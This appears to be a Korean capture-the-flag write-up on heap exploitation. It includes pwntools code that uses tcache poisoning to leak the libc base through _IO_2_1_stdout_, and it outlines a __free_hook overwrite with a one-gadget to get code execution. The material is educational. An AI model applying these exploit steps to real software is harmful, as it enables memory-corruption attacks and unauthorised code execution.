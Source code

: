 ```py
# chunk : first(1) (tcache에 들어갈 때는 동일한 청크이면 `+0x10`이 되었지만 할당될때는 또 `+0x10`이 되지 않고 그대로 동일한 청크 주소가 할당됨)
allocate(0x30, b'a')
# 어떤 값을 대입하면서 allocate하더라도 이미 tcache에는 stdout이 링크드 리스트의 헤더(청크의 헤더X)로 존재하므로 상관없음


# tcache[0x40] : _IO_2_1_stdout_
# chunk : stdout
_IO_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1]  # 첫번째 문자열 가져옴 : 문자열에서 첫번째는 lsb
allocate(0x30, _IO_2_1_stdout_lsb)
# 여기서 중요한게, 바로 아래에서 print_chunk를 할건데, stdout에 저장된(가리키는) _IO_2_1_stdout_을 변조하면 안됨
# 하지만 libc base를 몰라서 IO_stdout을 모르지만, 다행히 하위 3비트는 오프셋으로 고정되어 있어서 하위 1바이트인 lsb도 고정되있어서 lsb를 대입해주면 됨(리틀엔디언 잘 생각)


print_chunk()  # stdout에 저장된 IO_2_1_stdout_lsb 주소 출력
p.recvuntil(b'Content: ')  # print_chunk에서 'Content: '는 안받아줬기 때문에 여기까지 받아줘야 libc_base를 제대로 계산 가능

# Leak libc base
libc_base = u64(p.recvn(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stdout_']
```

<br>

#### 참고 (더 공부해서 보완)

`free list`의 청크들 끼리 연결 리스트로 연결할 때, 서로 다른 주소의 청크를 연결할 때는 gdb의 `heap` 명령어를 통해 출력되는 청크의 시작 주소대로 `fd`에 연결되지만, 

동일한 청크를 서로 연결할 때는 아래의 이미지와 같이 동일한 청크임에도 불구하고, `0x10`만큼 더해진 청크가 연결된다. 

![image](https://github.com/user-attachments/assets/d2af5302-c924-4780-9253-3b0b8f5e8bd0)

해당 이유를 명확히 밝혀내지는 못하였는데, 동일한 청크는 `header(metadata)` 때문에 밀려서 연결된다는 답이 있긴 하다.

그리고 `heap`의 `tcache`에서는 이렇게 주소가 차이나지만, 실제로 `malloc`을 연속 2번해서 보면 하나는 `+ 0x10`이 된 주소가 아니라, 당연히 똑같은 청크이기 때문에 똑같은 주소가 `malloc`을 통해 리턴된다.

<br>

### [2] Hook Overwrite

그럼 이제 **임의 주소 쓰기**를 통한 `Hook Overwrite`를 어떻게 할지 설계해보자.

당연히 이 과정도 `Tcache Poisoning`이 필요하기 때문에 Leak libc base에서 한 첫번째 과정대로 `duplicated free list(tcache)`를 만들어 준다.

**근데 여기서 매우 주의할 점이 위에서 `tcache[0x40]`의 연결 리스트를 오염시킨 결과로 `tcache`에 `_IO_2_1_stdout`이 존재하기 때문에 해당 연결 리스트에 다시 조작을 하면 표준 입출력 함수가 조작될 수 있기 때문에 새로운 크기의 `tcache[0x50]`으로 다시 시작해줘야 한다.**

그럼 이제 미리 `libc_base`를 통해 `__free_hook`과 `og`를 계산해주고, `__free_hook`의 값을 조작해야 하기 때문에 `allocate(0x40, p64(__free_hook))`으로 `__free_hook`을 `tcache[0x50]`에 추가해준다.

<br>

#### 보완할 부분 (원가젯 조건 확인 추가)

![image](https://github.com/user-attachments/assets/1a86b142-d49e-453d-b3f1-c06cb5c87426)

그럼 이제 `tcache[0x50]`에는 처음에 `duplicated` 시킨 청크와 `next`로 `__free_hook` 청크가 연결되어 있기 때문에, 일단 처음에 중복시킨 청크는 더이상 쓸 일이 없기 때문에 아무 값으로나 `allocate`해서 빼주고,

이제 `__free_hook` 청크를 `allocate` 하며 빼주면서 `__free_hook`의 데이터에 `og`를 대입해주면 `__free_hook`이 `og`를 가리키게 될 것이다.

그럼 바로 `free`를 호출해서 훅을 통해 원가젯을 실행시키면 익스플로잇 성공이다.

```py
free_hook = libc_base + libc.symbols['__free_hook']
```